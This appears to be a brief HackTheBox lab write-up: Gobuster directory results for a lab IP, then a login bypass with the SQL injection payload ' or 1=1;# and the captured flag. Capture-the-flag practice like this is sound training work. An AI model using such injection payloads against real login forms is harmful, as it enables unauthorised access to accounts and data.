 #HackTheBox 
# Scan Nmap


# Gobuster
/css                  (Status: 301) [Size: 314] [--> http://10.129.145.157/css/]
/fonts                (Status: 301) [Size: 316] [--> http://10.129.145.157/fonts/]
/images               (Status: 301) [Size: 317] [--> http://10.129.145.157/images/]
/index.php            (Status: 200) [Size: 4896]
/js                   (Status: 301) [Size: 313] [--> http://10.129.145.157/js/]
/vendor               (Status: 301) [Size: 317] [--> http://10.129.145.157/vendor/]

# Connexion on site
#### ' or 1=1;#
#### Your flag is: e3d0796d002a446c0e622226f42e9672
